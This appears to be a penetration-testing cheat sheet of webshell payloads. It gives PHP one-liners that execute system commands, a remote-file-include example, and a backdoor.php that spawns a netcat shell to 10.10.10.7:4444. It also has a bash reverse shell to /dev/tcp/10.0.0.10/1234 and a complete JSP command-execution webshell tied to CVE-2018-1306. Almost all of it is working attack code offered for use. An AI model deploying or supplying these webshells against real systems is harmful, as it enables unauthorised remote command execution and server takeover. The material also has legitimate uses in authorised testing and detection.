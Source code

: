 ### Typical Webshell Commands
- `<?php system("whoami"); ?>`
- `<?php exec("whoami"); ?>`: Executes but returns nothing
- `<?php echo exec("whoami"); ?>`
- `<?php exec("whoami", $array); print_r($array); ?>`: Executes, returns output in array
- `<?php echo shell_exec("whoami"); ?>`: Executes, returns string
- `<?php passthru ("whoami"); ?>`: Executes, returns raw format
- ```<?php echo "<pre>`whoami`</pre>"); ?>```
- `<?php system($_GET['c']);?>`: www.example.com/demo/shell.php?c=whoami (`?c=` when your code is already on the web server)
- `<?php system($_GET['c']);?>`: www.example.com?page=http://yourSite.com/yourMaliciousScript.txt&c=whoami (`&c=` when code is incoporated in php include())
    - Example remote script phpinfo(): `https://assets.pentesterlab.com/test_include.txt`
    - Example remote script system(): `https://assets.pentesterlab.com/test_include_system.txt`

### Webshells with netcat
```
<?php

// 1) Upload backdoor.php on web server
// 2) Enter URL --> http://example.com/backdoor.php?c=nc -e /bin/sh 10.10.10.7 4444

if(isset($_REQUEST['c'])){
        echo "<pre>";
        $c = ($_REQUEST['c']);
        system($c);
        echo "</pre>";
        die;
}
?>
```
### Webshell with interactive Bash Shell
```
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'"); ?>

# Shell traffic is routed to attacker machine with example IPv4 10.0.0.10 at port 1234
# `0>&1` = STDIN is redirected to STDOUT
```

### Webshell.jsp
- Credits: [https://cxsecurity.com/issue/WLB-2018090134](https://cxsecurity.com/issue/WLB-2018090134)
- **CVE-2018-1306**
```
<FORM METHOD=GET ACTION='webshell.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```